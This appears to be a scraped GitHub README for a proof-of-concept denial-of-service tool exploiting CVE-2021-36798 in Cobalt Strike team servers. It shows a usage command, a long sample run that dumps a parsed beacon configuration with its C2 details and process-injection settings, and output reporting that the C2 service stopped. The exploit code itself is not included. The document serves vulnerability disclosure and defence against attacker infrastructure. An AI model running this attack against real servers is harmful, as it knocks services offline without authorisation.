 # CobaltStrikeDos

CVE-2021-36798: CobaltStrike < 4.4 Dos

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/JamVayne](https://github.com/JamVayne) |
| Url      | [https://github.com/JamVayne/CobaltStrikeDos](https://github.com/JamVayne/CobaltStrikeDos)                                               |
| Stars    | 104                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

A denial of service (DoS) vulnerability (CVE-2021-36798) was found in  Cobalt Strike. The vulnerability was fixed in the scope of the 4.4  release. More information can be found [here](https://blog.cobaltstrike.com/2021/08/04/cobalt-strike-dos-vulnerability-cve-2021-36798/)

## Usage

```
python3 CobaltStrikeDos.py https://1.1.1.1<:443> <stager path>
```

```
$ python3 CobaltStrikeDos.py https://192.168.1.3:4431 jquery-2.1.1.min.js
[+] Try Get beacon configuration
BeaconType                       - HTTPS
Port                             - 4431
SleepTime                        - 60000
MaxGetSize                       - 1048576
Jitter                           - 0
MaxDNS                           - Not Found
PublicKey_MD5                    - 593aaee8f3b92c6c61cd742e71dcb108
C2Server                         - 192.168.1.3,/cx
UserAgent                        - Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; yie9)
HttpPostUri                      - /submit.php
Malleable_C2_Instructions        - Empty
HttpGet_Metadata                 - Metadata
                                        base64
                                        header "Cookie"
HttpPost_Metadata                - ConstHeaders
                                        Content-Type: application/octet-stream
                                   SessionId
                                        parameter "id"
                                   Output
                                        print
PipeName                         - Not Found
DNS_Idle                         - Not Found
DNS_Sleep                        - Not Found
SSH_Host                         - Not Found
SSH_Port                         - Not Found
SSH_Username                     - Not Found
SSH_Password_Plaintext           - Not Found
SSH_Password_Pubkey              - Not Found
SSH_Banner                       - 
HttpGet_Verb                     - GET
HttpPost_Verb                    - POST
HttpPostChunk                    - 0
Spawnto_x86                      - %windir%\syswow64\rundll32.exe
Spawnto_x64                      - %windir%\sysnative\rundll32.exe
CryptoScheme                     - 0
Proxy_Config                     - Not Found
Proxy_User                       - Not Found
Proxy_Password                   - Not Found
Proxy_Behavior                   - Use IE settings
Watermark                        - 426352781
bStageCleanup                    - False
bCFGCaution                      - False
KillDate                         - 0
bProcInject_StartRWX             - True
bProcInject_UseRWX               - True
bProcInject_MinAllocSize         - 0
ProcInject_PrependAppend_x86     - Empty
ProcInject_PrependAppend_x64     - Empty
ProcInject_Execute               - CreateThread
                                   SetThreadContext
                                   CreateRemoteThread
                                   RtlCreateUserThread
ProcInject_AllocationMethod      - VirtualAllocEx
bUsesCookies                     - True
HostHeader                       - 
headersToRemove                  - Not Found
DNS_Beaconing                    - Not Found
DNS_get_TypeA                    - Not Found
DNS_get_TypeAAAA                 - Not Found
DNS_get_TypeTXT                  - Not Found
DNS_put_metadata                 - Not Found
DNS_put_output                   - Not Found
DNS_resolver                     - Not Found
DNS_strategy                     - round-robin
DNS_strategy_rotate_seconds      - -1
DNS_strategy_fail_x              - -1
DNS_strategy_fail_seconds        - -1
BeaconType                       - HTTPS
Port                             - 4431
SleepTime                        - 60000
MaxGetSize                       - 1048576
Jitter                           - 0
MaxDNS                           - Not Found
PublicKey_MD5                    - 593aaee8f3b92c6c61cd742e71dcb108
C2Server                         - 192.168.1.3,/ga.js
UserAgent                        - Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
HttpPostUri                      - /submit.php
Malleable_C2_Instructions        - Empty
HttpGet_Metadata                 - Metadata
                                        base64
                                        header "Cookie"
HttpPost_Metadata                - ConstHeaders
                                        Content-Type: application/octet-stream
                                   SessionId
                                        parameter "id"
                                   Output
                                        print
PipeName                         - Not Found
DNS_Idle                         - Not Found
DNS_Sleep                        - Not Found
SSH_Host                         - Not Found
SSH_Port                         - Not Found
SSH_Username                     - Not Found
SSH_Password_Plaintext           - Not Found
SSH_Password_Pubkey              - Not Found
SSH_Banner                       - 
HttpGet_Verb                     - GET
HttpPost_Verb                    - POST
HttpPostChunk                    - 0
Spawnto_x86                      - %windir%\syswow64\rundll32.exe
Spawnto_x64                      - %windir%\sysnative\rundll32.exe
CryptoScheme                     - 0
Proxy_Config                     - Not Found
Proxy_User                       - Not Found
Proxy_Password                   - Not Found
Proxy_Behavior                   - Use IE settings
Watermark                        - 426352781
bStageCleanup                    - False
bCFGCaution                      - False
KillDate                         - 0
bProcInject_StartRWX             - True
bProcInject_UseRWX               - True
bProcInject_MinAllocSize         - 0
ProcInject_PrependAppend_x86     - Empty
ProcInject_PrependAppend_x64     - Empty
ProcInject_Execute               - CreateThread
                                   SetThreadContext
                                   CreateRemoteThread
                                   RtlCreateUserThread
ProcInject_AllocationMethod      - VirtualAllocEx
bUsesCookies                     - True
HostHeader                       - 
headersToRemove                  - Not Found
DNS_Beaconing                    - Not Found
DNS_get_TypeA                    - Not Found
DNS_get_TypeAAAA                 - Not Found
DNS_get_TypeTXT                  - Not Found
DNS_put_metadata                 - Not Found
DNS_put_output                   - Not Found
DNS_resolver                     - Not Found
DNS_strategy                     - round-robin
DNS_strategy_rotate_seconds      - -1
DNS_strategy_fail_x              - -1
DNS_strategy_fail_seconds        - -1

[+] Send Payload
[+] The C2 Service Has Stopped, Took 5.24 Seconds
```



https://blog.cobaltstrike.com/2021/08/04/cobalt-strike-dos-vulnerability-cve-2021-36798/

https://github.com/Sentinel-One/CobaltStrikeParser

https://www.sentinelone.com/labs/hotcobalt-new-cobalt-strike-dos-vulnerability-that-lets-you-halt-operations/



## Get the content

```
git clone https://github.com/JamVayne/CobaltStrikeDos
cd CobaltStrikeDos
```

{% embed url="https://github.com/JamVayne/CobaltStrikeDos" %}

<figure><img src="https://avatars.githubusercontent.com/u/39869990?v=4" alt=""><figcaption><p>JamVayne</p></figcaption></figure>
